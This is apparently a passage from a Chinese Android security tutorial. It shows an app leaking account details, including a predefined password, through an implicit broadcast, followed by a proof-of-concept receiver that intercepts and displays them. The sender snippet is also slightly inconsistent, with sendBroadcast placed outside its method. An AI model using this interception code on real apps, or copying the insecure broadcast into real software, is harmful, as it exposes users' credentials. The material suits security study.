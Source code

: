  
 
**案例3：敏感信息泄漏**

某应用利用广播传输用户账号密码
 
![](img/break.png)

隐式意图发送敏感信息

```java
public class ServerService extends Service {
  // ...
  private void d() {
    // ...
    Intent v1 = new Intent();
    v1.setAction("com.sample.action.server_running");
    v1.putExtra("local_ip", v0.h);
    v1.putExtra("port", v0.i);
    v1.putExtra("code", v0.g);
    v1.putExtra("connected", v0.s);
    v1.putExtra("pwd_predefined", v0.r);
    if (!TextUtils.isEmpty(v0.t)) {
      v1.putExtra("connected_usr", v0.t);
    }
  }
  this.sendBroadcast(v1);
}
```

接收POC


```java
public class BcReceiv extends BroadcastReceiver {
  @Override
  public void onReceive(Context context, Intent intent){
    String s = null;
    if (intent.getAction().equals("com.sample.action.server_running")){
      String pwd = intent.getStringExtra("connected");
      s = "Airdroid  => [" + pwd + "]/" + intent.getExtras();
    }
    Toast.makeText(context, String.format("%s Received", s),
                   Toast.LENGTH_SHORT).show();
  }
}
```
	